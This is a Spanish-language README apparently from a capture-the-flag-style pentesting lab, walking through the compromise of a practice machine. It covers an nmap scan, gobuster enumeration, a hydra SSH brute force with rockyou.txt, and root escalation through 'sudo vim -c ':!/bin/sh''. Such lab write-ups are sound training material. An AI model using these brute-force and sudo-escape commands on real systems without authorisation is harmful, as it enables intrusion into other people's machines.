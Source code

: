 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- \`ping\`
- \`nmap\`
- \`gobuster\`
- \`hydra\`
- \`ssh\`
- \`vim\`
- Diccionario \`rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`
ping -c 4 172.18.0.2
\`\`\`

![Ping a la IP](screenshots/ping.PNG)

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

![escaneo](screenshots/escaneo.PNG)

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)
Vemos que tiene el puerto 80 mediante el navegador

![navegador](screenshots/puerto80http.PNG)

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

![gobuster](screenshots/gobuster.PNG)

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

![Nombre](screenshots/mario.PNG)

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

![Password](screenshots/contraseña.PNG)

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

![SHH](screenshots/conexionSSH.PNG)

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

![escala](screenshots/escalada.PNG)

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

![escalada](screenshots/escaladavim.PNG)

\`\`\`
sudo vim -c ':!/bin/sh'
\`\`\`

![accesoRoot](screenshots/accesoRoot.PNG)

Conseguimos un shell con privilegios root y control total de la máquina.

![Root](screenshots/root.PNG)

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
